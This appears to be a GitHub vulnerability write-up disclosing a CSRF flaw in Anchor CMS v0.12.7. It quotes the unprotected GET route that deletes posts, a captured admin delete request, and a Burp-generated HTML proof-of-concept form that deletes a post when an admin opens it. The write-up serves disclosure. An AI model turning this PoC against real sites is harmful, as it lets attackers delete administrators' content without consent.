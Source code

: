 # anchorcms-0.12.7-CSRF
CSRF (Cross-site request forgery) Vulnerability discovered in Anchor CMS v0.12.7 and that can delete posts.

# Vulnerability Analysis  

Request interface for adding, deleting, modifying and checking posts in anchor/routes/posts.php.

let us see code it delete a posts. 
```
    /**
     * Delete post
     */
    Route::get('admin/posts/delete/(:num)', function ($id) {
        Post::find($id)->delete();
        Comment::where('post', '=', $id)->delete();

        Query::table(Base::table('post_meta'))
             ->where('post', '=', $id)
             ->delete();

        Notify::success(__('posts.deleted'));

        return Response::redirect('admin/posts');
    });
```
There is no check on token or referer and delete directly.

# Reproduce and PoC

1. Login in as a admin.
2. create some posts for deleteing
3. use brupsuite get a delete request packet
```
GET /admin/posts/delete/6 HTTP/1.1
Host: 192.168.1.89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.89/admin/posts/edit/3
Cookie: anchorcms=ng848botkffiu4c1lrgbgo50ri
Upgrade-Insecure-Requests: 1

```

The request just delete a posts that id is 6. 

4. use brupsuite to generat a csrf PoC.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.89/admin/posts/delete/6">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Then save the PoC code to a exploit.html, and click exploit.html to csrf attack.
![1](https://user-images.githubusercontent.com/11525772/154665895-36b7575d-368d-495c-830e-80fc17bc02c0.jpg)


click it to send a request and delete it successfully.
![1645180292(1)](https://user-images.githubusercontent.com/11525772/154665976-e329e3d5-b820-43fa-a9c3-d8dce7f085b1.jpg)

 


